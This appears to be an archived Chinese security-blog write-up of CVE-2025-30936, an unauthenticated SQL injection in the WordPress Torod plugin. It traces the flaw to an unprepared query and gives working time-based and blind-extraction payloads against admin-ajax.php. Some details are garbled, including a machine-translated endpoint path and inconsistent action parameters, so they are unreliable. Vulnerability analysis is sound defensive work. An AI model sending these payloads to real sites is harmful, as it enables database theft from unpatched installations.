




# CVE-2025-30936 SQL注入

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Torod<=1.9，wp_ajax_nopriv 对应入口；修复状态仅为文章时点声明
- 证据范围：country_id 直接进入数值查询的链条清楚，但请求参数前后不一致影响复现

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 误归 PostgreSQL
- 入口路径被机器翻译
- 说明写 action=wp_ajax_nopriv_get_regions_and_cities，而正文示例去掉钩子前缀；第二例 action=get_regions_and_cities=1 又多出=1
- 修复版本 <= N/A 无效，需改成截至日期未知/未提供
- 子查询保证执行的普遍性论断缺少优化器/数据条件

### 操作风险与资料使用

- 含资源消耗、延时或崩溃验证：可能影响服务可用性；限制请求次数、并发与超时，保留无攻击负载的对照结果。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 匆匆过客
                    匆匆过客  天启攻防实验室   2026-02-09 07:51  
  
   
  
更多实战：  
  
  
  
  
该漏洞存在于WordPress的  
Torod  
插件中。这可能允许攻击者直接与您的数据库交互，包括但不限于窃取信息。  
  
·  
  
CVE编号  
:   
CVE-2025-30936  
  
·  
  
产品  
:   
WordPress Torod 插件  
  
·  
  
漏洞类型  
: SQL注入  
  
·  
  
受影响版本  
: <= 1.9  
  
·  
  
修复版本  
: <= N/A  
  
·  
  
CVSS严重性  
: 高 (9.3)  
  
·  
  
所需权限  
: 未认证  
## 环境要求  
  
·  
  
本地WordPress与调试  
:   
Local WordPress and 调试  
.  
  
·  
  
Torod  
: v1.9  
## 分析  
  
根本原因在于应用程序直接将来自  
POST  
请求的数据插入到SQL查询中，而没有进行适当的输入验证或控制。  
### 漏洞点  
  
此CVE没有可用的补丁，因此我们无法使用  
diff工具  
来比较存在漏洞的版本和已修复的版本。  
  
在WordPress中，要发生SQL注入，应用程序必须通过全局变量   
$wpdb  
 与数据库交互。我们可以在插件目录中搜索此关键字以定位漏洞点。  
  
  
  
👉 来自   
$_POST['country_id']  
 的数据未经适当验证就直接插入到SQL查询中。使用   
sanitize_text_field()  
 仅对字符串进行转义，并未完全清理。因此，SQL注入漏洞可能发生。  
  
·  
  
来源:   
$_POST['country_id']  
  
·  
  
漏洞点:   
$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")  
### 工作原理？  
  
该漏洞位于   
inc/ajaxyk.php  
 文件中的   
ajaxyk  
 类的   
get_regions_and_cities  
 函数内。为了确定它在何处被调用，我们在插件目录中搜索关键字   
get_regions_and_cities  
。  
  
  
  
👉   
get_regions_and_cities  
 通过   
ajaxyk  
 构造函数中的   
add_action  
 函数注册为两个动作钩子的回调函数。  
  
·  
  
wp_ajax_get_regions_and_cities  
  
o  
  
格式为   
wp_ajax_{$action}  
  
o  
  
需要用户认证  
  
·  
  
wp_ajax_nopriv_get_regions_and_cities  
  
o  
  
格式为   
wp_ajax_nopriv_{$action}  
  
o  
  
不需要认证  
  
由于这是一个  
未认证  
漏洞，我们只关注   
wp_ajax_nopriv_get_regions_and_cities  
 钩子。  
  
因此，当向   
/wp-管理员/管理员-AJAX.php  
 发送包含以下参数的  
POST  
请求时：  
  
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here  
  
·  
  
get_regions_and_cities  
 回调函数被触发。  
  
·  
  
country_id  
 直接从请求中获取并注入到SQL查询中。  
  
·  
  
查询与恶意载荷一起执行。  
## 漏洞利用  
### 检测SQL注入  
  
发送包含SQL注入载荷的  
POST请求  
：  
  

```http
POST /wp-管理员/管理员-AJAX.php HTTP/1.1  
  
Host: localhost  
  
...  
  
Cookie: cookie_here  
  
action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)  
```

  
生成的查询变为：  
  

```sql
SELECT  
  
*  
  
FROM  
 wp_torod_regions   
WHERE  
 country_id   
=  
 (  
SELECT  
  
1  
  
FROM  
 (  
SELECT  
 SLEEP(  
5  
))a)  
```

  
  
  
👉 基于响应时间 => 载荷有效。  
  
当表为空时可用的技术：  
  
·  
  
UNION  
：由于它不依赖于表中现有的数据，但需要知道列的数量。  
  
·  
  
子查询  
：  
  
o  
  
WHERE子句中的子查询  
：如果结果可以提前确定，MySQL可能会优化并跳过子查询。如果表没有数据，MySQL可能不会执行   
SLEEP()  
。  
  
o  
  
FROM子句中的子查询  
：子查询被视为临时表。MySQL必须先执行它以构建临时表，然后才能执行主查询。  
  
  
### 获取数据库名称的第一个字母  
  
转储所有数据  
的前提是至少检索到数据库名称的一个字符。一旦实现这一点，其余部分就可以枚举。  
  
发送带有  
SQL注入载荷  
的请求：  
  

```http
POST /wp-管理员/管理员-AJAX.php HTTP/1.1  
  
Host: localhost  
  
...  
  
Cookie: cookie_here  
  
action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)  
```

  
这里，  
SUBSTRING()  
 提取  
数据库名称  
的第一个字符，如果该字符是   
0x77  
 ('w')，则   
IF()  
 触发   
SLEEP(5)  
。  
  
我们使用十六进制编码   
0x77  
 来表示   
w  
，因为   
country_id  
 取自  
POST  
请求，该请求在WordPress中被   
magic quotes  
 转义，并被   
sanitize_text_field  
 转义。  
  
👉 基于响应时间 => 确认第一个字符是   
w  
。  
## 结论  
  
WordPress Torod  
 插件（版本 ≤ 1.9）中的   
CVE-2025-30936  
 漏洞源于将用户输入未经适当验证直接插入SQL查询，导致了经典的SQL注入缺陷。  
  
目前尚未发布针对此漏洞的官方补丁。  
  
关键要点  
：  
  
·  
  
始终正确验证和清理用户输入。  
  
·  
  
在WordPress中与数据库交互时，始终使用   
$wpdb->prepare()  
 以防止SQL注入。  
  
·  
  
保持插件更新，并定期进行安全评估，以避免成为攻击目标。  
  
加好友进技术交流群：  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
